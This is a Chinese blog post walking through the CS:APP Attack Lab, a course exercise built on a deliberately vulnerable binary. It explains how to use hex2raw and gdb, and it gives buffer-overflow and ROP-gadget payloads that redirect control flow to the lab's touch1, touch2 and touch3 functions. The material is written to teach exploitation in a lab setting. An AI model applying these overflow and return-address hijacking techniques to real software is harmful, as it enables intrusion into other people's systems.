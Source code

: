 ```yaml
---
layout:     post
title:      csapp-attacklab
subtitle:   csapp-lab
date:       2020-07-28
author:     X1ng
header-img: csapp_lab3.jpg
catalog: true
tags:

- lab
- csapp




---
```


开始没有pwn的工具不知所措，参考了别的师傅的博客才知道给出的文件使用方法

我在2020年7月23日到28日下载的实验文件里给出的ctarget和rtarget是两个一样的文件，所以相当于只完成了半个实验。。

## 实验辅助

hex2raw的使用说明

要求输入是一个十六进制格式的字符串，用两个十六进制数字表示一个字节值，字节值之间以空白符（空格或新行）分隔，注意使用小端法字节序。

将攻击字符串存入文件中，如attack.txt

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6s6t1shjj30gw08at8s.jpg)

然后用下述方法调用：

1.`cat attack.txt | ./hex2raw | ./ctarget`

2.`./hex2raw <attack.txt> attackraw.txt`

`./ctarget < attackraw.txt`或 `./ctarget -i attackraw.txt`

3.结合gdb使用

`./hex2raw <attack.txt> attackraw.txt`

`gdb ctarget`

(gdb) `run < attackraw.txt` 或 (gdb) `run -i attackraw.txt`

生成字节代码操作

编写一个汇编文件：

vim attack.s

汇编和反汇编此文件：

gcc -c attack.s

objdump -d attack.o > attack.d

由此推出这段代码的字节序列。

涉及的gdb命令

(gdb) r run的简写，运行被调试的程序。若有断点，则程序暂停在第一个可用断点处。

(gdb) c continue的简写，继续执行被调试程序，直至下一个断点或程序结束。

(gdb) print <指定变量> 显示指定变量的值。

(gdb) break *<代码地址> 设置断点。

(gdb) x/<n/f/u> <addr> examine的简写，查看内存地址中的值。

————————————————

版权声明：CSDN博主「_Silvia」的原创文章，原文链接：https://blog.csdn.net/qq_36894564/article/details/72863319

## 前置知识

需要了解函数调用、栈溢出相关知识

32位下函数调用——[手把手教你栈溢出从入门到放弃](https://zhuanlan.zhihu.com/p/25816426)

64位函数调用的传参方式不同于32位

当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9

当参数为7个以上时，前6个同上，剩下的参数与32位一样从右往左压栈

如调用H(a, b, c, d, e, f, g, h);

a->%rdi, b->%rsi, c->%rdx, d->%rcx, e->%r8, f->%r9		h->8(%esp)		g->(%esp)

再call H

## attacklab

相关函数逻辑就是提供一个Cookie再输入通过getbuf()往栈中输入一个字符串，存在溢出漏洞，可以控制`ret`返回地址

需要加`-q`参数运行ctarget程序

### touch1

在getbuf()中可以看到`sub rsp,0x28`可知栈长度为0x28

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6rugo2v6j314u0cqdk7.jpg)

输入字符串"aaaaaaaa"，可以看到输入字符串的内存单元正好时rsp指向的内存单元

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6skh2m80j319s0ictdq.jpg)

所以只要输入`'a'*0x28+(address)`即可控制程序流，填充为touch1()地址，即可执行touch1()

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6sk2bii1j31n60h4gol.jpg)

payload:

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00		//touch1
```

（小端序）

pass

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6skrwyp2j31ea09mtbq.jpg)

### touch2

找到touch2的地址

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6ssfzyk4j31ms0t4jy0.jpg)

可以看到

`cmp     edi, cs:cookie`

即 将第一个参数（rdi中的数据）与cookie比较

用ROPgadget搜索gadgets

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh72vhbv1rj315y0u0qdf.jpg)

找到`0x000000000040141b	:	pop rdi	;	ret`

payload:

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
1b 14 40 00 00 00 00 00		//pop rdi;ret;
fa 97 b9 59 00 00 00 00		//cookie
ec 17 40 00 00 00 00 00		//touch2
```

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh738pd9qwj31ee0a8dj8.jpg)

### touch3

有点迷，跳转touch3后各种操作，最后发现就是比较 调用touch3的参数作为地址的字符串 与cookie（总觉得是个非预期）

若payload为

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
1b 14 40 00 00 00 00 00
00 00 00 00 00 00 00 00
fa 18 40 00 00 00 00 00
```

则

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh72xssb74j316o0h40zb.jpg)

然后Segmentation fault

所以payload:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
1b 14 40 00 00 00 00 00   //pop rdi;ret;
23 dc 61 55 00 00 00 00   //&cookie
fa 18 40 00 00 00 00 00   //touch3
```

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh738h1nsnj31400ge457.jpg)

pass

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh7388kbzoj31e80a8whw.jpg)
